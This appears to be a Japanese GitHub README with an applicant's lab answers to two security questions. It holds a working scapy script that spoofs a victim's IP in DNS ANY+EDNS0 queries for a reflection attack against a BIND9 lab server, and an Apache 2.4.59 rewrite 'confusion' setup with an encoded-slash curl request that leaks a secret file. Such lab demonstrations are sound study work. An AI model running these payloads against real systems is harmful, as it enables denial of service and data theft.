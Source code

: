 # Q.3(DNS reflection)

ホストOS: Linux

仮想化管理: Virtual Machine Manager（libvirt + QEMU/KVM）

Virtul Machine Manager を使用します。

以下のようにIPアドレスをそれぞれのコンピュターに割り当てる

| 仮想マシン名 | IPアドレス | 用途 |
| --- | --- | --- |
| attacker | すでに割り当てられているものを使う(今回は 192.168.11.25) | scapy による ANY＋EDNS0 クエリ をする |
| victim | 192.168.11.100 | 被害者（偽装される） |
| dns-server | 192.168.11.53 | BIND9でDNSサーバーとして振る舞う。大量のTXT/Aを返す。  |

**２つのゲストOSは仮想ブリッジ `br0` で接続する。**

br0は下のコマンドで作成する。

```bash
sudo ip link add name br0 type bridge
sudo ip link set dev br0 up
sudo ip link set dev enp3s0 master br0  # enp3s0が物理NIC
```

Virtual Machine Manager側でゲストOSがbr0を使用するようにする。

DNSサーバーのシステムのインストールを行います。

```bash
sudo apt install bind9
sudo systemctl start named
```

そしてDNSサーバー側でドメイン takkesan.com に対するゾーンを追加し、大量のレコードが返るようにします。

/etc/bind/db.takkesan.com

```bash
$TTL    604800
@       IN      SOA     ns1.takkesan.com. admin.takkesan.com. (
                          2024052005 ; Serial
                          604800     ; Refresh
                          86400      ; Retry
                          2419200    ; Expire
                          604800 )   ; Negative Cache TTL
;

@       IN      NS      ns1.takkesan.com.
@       IN      A       192.168.11.53
ns1     IN      A       192.168.11.53
www     IN      A       192.168.11.53
mail    IN      A       192.168.11.53
@       IN      MX 10   mail.takkesan.com.

;
@ IN TXT "It was at dusk on a certain day. A lone servant was waiting for the rain to stop under the Rashomon gate."
@ IN TXT "Under the wide gate, there was no one except this man. Only a single cricket rested on a large pillar,"
@ IN TXT "partially stripped of red lacquer. Considering that Rashomon stood on Suzaku Avenue,"
@ IN TXT "there should have been two or three more people, wearing straw hats or soft eboshi,"
@ IN TXT "also waiting for the rain to stop. Yet, there was no one else but this man."
@ IN TXT "The reason was that, in the past two or three years, Kyoto had suffered from a series of disasters earthquakes, whirlwinds,"
@ IN TXT "fires, and famines. As a result, the decline of the city was beyond description. According to old records,"
@ IN TXT "people smashed Buddhist statues and altar fittings, stripping off their red lacquer and gold or silver leaf,"
@ IN TXT "then piled up the wooden remains on the roadside and sold them as firewood. With that being the state of the capital,"

host1    IN      A       192.0.2.0
host2    IN      A       192.0.2.1
host3    IN      A       192.0.2.2
host4    IN      A       192.0.2.3
host5    IN      A       192.0.2.4
host6    IN      A       192.0.2.5
host7    IN      A       192.0.2.6
host8    IN      A       192.0.2.7
```

/etc/bind/named.conf.local

```bash
zone "takkesan.com" {
    type master;
    file "/etc/bind/db.takkesan.com";
};
```

被害者側でポート53番を一応開けておきます。

```bash
sudo ufw allow 53/udp
```

攻撃者側でWiresharkを起動してbr0を選択します。

入力フィールドにdnsと入力してDNS関連の通信のみを表示するようにします。

攻撃者側で下記のスクリプトをrootで実行します。

```python
from scapy.all import *
import random
import time

def send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, qname, count=5, interval=1.0):
    print(f"[+] Sending {count} spoofed DNS ANY queries with EDNS0 for '{qname}' from {victim_ip} to {dns_server_ip}")

    for i in range(count):
        transaction_id = random.randint(1, 65535) 
        sport=53
        # IP + UDPヘッダ
        ip = IP(src=victim_ip, dst=dns_server_ip)
        udp = UDP(sport=sport, dport=53)

        # DNSクエリ + EDNS0（OPT）レコード付き
        dns = DNS(
            id=transaction_id,
            rd=1,
            qd=DNSQR(qname=qname, qtype=255),  # qtype=255 → ANY
            ar=DNSRROPT(rclass=4096, rdlen=0)
        )

        pkt = ip / udp / dns

        print(f"[*] Sending packet {i+1}/{count} (TXID=0x{transaction_id:04x}, SPORT={sport})")
        send(pkt, verbose=0)
        time.sleep(interval)

# ====== 実行パラメータ ======
victim_ip = "192.168.11.100"       # 偽装された送信元IP（被害者）
dns_server_ip = "192.168.11.53"    # DNSサーバIP（攻撃対象）
domain = "takkesan.com"            # 問い合わせ対象ドメイン
send_count = 5                     # クエリ送信回数
send_interval = 0.5                # 送信間隔（秒）

# ====== 実行 ======
send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, domain, count=send_count, interval=send_interval)
```

# 結果の概要
Wiresharkの検索欄にdnsと入力してフィルターをかけています。


通常の問い合わせの場合
normal_request_by_dig.pcapng
![alt text](image-1.png)

IPアドレスを詐称して攻撃する場合
dns_reflection.pcapng
![alt text](image.png)

詳しい結果、考察については応募課題のエントリーフォームに入力しています。

---

# Q.4 (Cofussion Attack)

バージョン: Apache HTTPサーバー 2.4.59
Docker: Docker version 28.1.1, build 4eba377327

httpd.conf
```bash
# User configuration
# 1) エンコードされたスラッシュを許可しデコードさせる
AllowEncodedSlashes On

# 2) 任意閲覧を許可するディレクトリ
<Directory "/var/user">
    Require all granted
</Directory>

# 3) 既存の RewriteRule はそのまま
RewriteEngine on
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"
```

## 結果の概要

通常のリクエストとConfusion攻撃を利用したリクエストの両方を試した結果です。

```bash
curl http://localhost:8080/user/orange
    profile.yml

curl http://localhost:8080/user/orange%2Fsecret.yml%3F
    password: super_secret

curl http://localhost:8080/user/orange/secret.yml
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    </body></html>
```

詳しい結果、考察については応募課題のエントリーフォームに入力しています。
